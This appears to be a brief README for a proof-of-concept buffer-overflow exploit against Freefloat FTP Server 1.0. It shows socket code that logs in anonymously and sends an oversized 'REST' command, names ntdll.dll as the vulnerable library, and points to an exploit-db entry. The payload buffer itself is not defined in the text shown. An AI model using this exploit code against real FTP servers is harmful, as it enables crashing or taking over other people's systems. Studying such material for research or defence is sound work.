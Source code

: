 # Buffer-Overflow in Freefloat FTP Server 1.0 -'REST'

POC ==>
s.send("USER anonymous\r\n");
s.recv(1024);
s.send("PASS anonymous\r\n");
s.recv(1024);
s.send("REST " + buffer + "\r\n");
s.send("QUIT\r\n");

Vulnerable dll : ntdll.dll
ref : https://www.exploit-db.com/exploits/17546
Download vulnerable application from exploit-db page
